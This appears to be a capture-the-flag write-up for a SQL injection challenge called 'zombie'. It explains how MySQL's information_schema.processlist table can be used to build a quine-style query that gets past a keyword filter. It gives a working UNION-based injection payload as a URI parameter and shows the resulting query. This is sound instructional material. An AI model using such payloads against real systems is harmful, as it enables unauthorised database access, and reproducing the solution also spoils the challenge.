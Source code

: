 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 31
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/619f9f68-e38d-47a0-a15b-ff662242c83b)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_zombie WHERE pw='{$_GET[pw]}'
```

Similar to [ouroboros], in this challenge, we have to use a Quine in order to solve it.
However, since `ace` is being filtered out, we have to find another way of crafting our Quine.

&nbsp;

## `information_schema.processlist`

As noted by [this documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html), in MySQL, the `info` column of the `information_schema.processlist` contains the operation that is currently being executed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/883c41a1-9cb1-4b55-98b3-641f02529310)

&nbsp;

## Modified Quine

```sql
1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

- `substr(info,locate('1',info),length(info)-locate('1',info))`:
	- `locate('1', info)` finds the position of the first occurrence of the character `'1'` in the `info` column.
    - `length(info)` gives the total length of the `info` column's content.
    - `length(info)-locate('1',info)` calculates the length of the substring starting from the first occurrence of `'1'` to the end of the `info` content.
	- `substr(info, locate('1', info), length(info) - locate('1', info))` extracts this substring.
- **`from information_schema.processlist`**:   
    - This specifies the table from which the data is being selected. The `information_schema.processlist` table contains information about the currently running processes in the MySQL database server.

&nbsp;

If we provide the following URI parameter:

```
?pw=1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

The resultant query becomes:

```sql
SELECT pw FROM prob_zombie WHERE pw='1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist #'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/606cc988-e99e-4db2-90fc-25387e44ccc7)
